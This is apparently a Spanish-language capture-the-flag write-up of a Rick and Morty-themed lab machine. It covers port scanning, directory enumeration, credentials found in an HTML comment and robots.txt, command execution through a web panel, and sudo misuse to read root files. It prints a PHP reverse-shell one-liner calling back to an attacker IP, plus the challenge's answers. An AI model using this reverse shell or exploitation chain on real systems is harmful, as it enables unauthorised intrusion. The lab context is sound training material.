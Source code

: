 
![](https://i.imgur.com/o9pyhyU.jpg)  

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Preguntas a responder: 

-----

What is the first ingredient that Rick needs?  


What is the second ingredient in Rick’s potion?  


What is the last and final ingredient?  

-----

Empezamos con un mapeo de todos los puertos por nmap:

```bash
❯ nmap -p- --min-rate 5000 -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:34 CEST
Nmap scan report for 10.10.142.14
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```

Ahora hacemos un escaneo mas completo a los puertos encontrados:

```bash
❯ nmap -p22,80 -sCV -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:36 CEST
Nmap scan report for 10.10.142.14
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:f6:10:24:1d:cf:07:a4:3c:1f:e3:06:7f:f4:64:8b (RSA)
|   256 b0:9d:20:7f:58:4f:ce:b5:cc:e0:8f:e2:60:05:65:3a (ECDSA)
|_  256 3d:53:81:7c:09:64:65:82:af:6a:1d:16:8c:52:02:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

con todo esto vamos a empezar por el servicio http y la web que aloja en el apache.

en el codigo fuente de la web vemos este body:


``` html
<body> 
	<div class="container"> 
	<div class="jumbotron"></div> 
		<h1>Help Morty!</h1></br> 
		<p>Listen Morty... I need your help, I've turned myself into a pickle   again and this time I can't change back!</p>
		</br> <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br> 
		
		</div> 
		
		<!-- Note to self, remember username! Username: R1ckRul3s --> 

</body>
```

nos guardamos el username: R1ckRul3s

Intenté hacer un ataque de fuerza bruta con hydra al ssh pero el servicio no me dejaba por lo que continué centrándome en la web.

Buscamos el archivo robots.txt y enontramos esto:

**Wubbalubbadubdub**

hacemos una enumeración de directorios con gobuster, esta vez añadimos la flag -x para encontrar directorios con extensiones de archivo como php:

```bash
❯ gobuster dir -u http://10.10.142.14 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,json,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.142.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml,php,html,txt,json
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.142.14/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 10490 / 1323360 (0.79%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10496 / 1323360 (0.79%)
===============================================================
Finished
===============================================================
```

accedemos a la pagina login.php, me mostro una web de logueo, probé loguearme con el usuario R1ckRul3s y la pass: Wubbalubbadubdub y entre a este panel:

![[/img/PanelRick.png|Pasted image 20240514115345.png]]

aqui podemos introducir comandos a una shell, hice un -ls -la y mostró varios archivos:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
aquí podemos obtener el primer ingrediente, con un **cat Sup3rS3cretPickl3Ingred.txt** no nos deja obtener el resultado así que usé el comando less y obtenemos el primer ingrediente:
```bash
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
 la primera pregunta queda respondida : 
 
 **What is the first ingredient that Rick needs?**
 
 Respuesta: **mr. meeseek hair**

después de esto intento hacer una reverse shell para un manejo mas cómodo:
tras unas pruebas consigo que me funcione con este one-liner rev: 

**php -r '$sock=fsockopen("10.9.251.231",1234);exec("/bin/bash <&3 >&3 2>&3");'**

y obtengo acceso:
```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.142.14] 33970
whoami
www-data

```

hago un tratamiento de la tty y empiezo con una pequeña enumeración para ver que permisos de sudo tenemos y sorpresa:

```bash
www-data@ip-10-10-142-14:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-142-14:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-142-14:
    (ALL) NOPASSWD: ALL
```
tenemos permisos para todo.

vemos el archivo clue.txt que se muestra en el mismo directorio que el primer ingrediente y nos dice que sigamos buscando por el sistema.

En la carpeta de rick encontramos el segundo ingrediente:
```bash
www-data@ip-10-10-142-14:/home$ cd rick
www-data@ip-10-10-142-14:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-142-14:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-142-14:/home/rick$ 
```

**What is the second ingredient in Rick’s potion?**
Respuesta: **1 jerry tear**

ahora intenté entrar al directorio de root pero no me dejaba así que probé varios métodos 
```bash
www-data@ip-10-10-142-14:/$ cd root
bash: cd: root: Permission denied
www-data@ip-10-10-142-14:/$ sudo cd root
sudo: cd: command not found
www-data@ip-10-10-142-14:/$ ls root
ls: cannot open directory 'root': Permission denied
www-data@ip-10-10-142-14:/$ sudo ls root
3rd.txt  snap
www-data@ip-10-10-142-14:/$ 
www-data@ip-10-10-142-14:/$ sudo less root/3rd.txt
# y pude visualizar el tercer ingrediente

3rd ingredients: fleeb juice
```

**What is the last and final ingredient?**
Respuesta: **fleeb juice**

Con esto concluimos la maquina.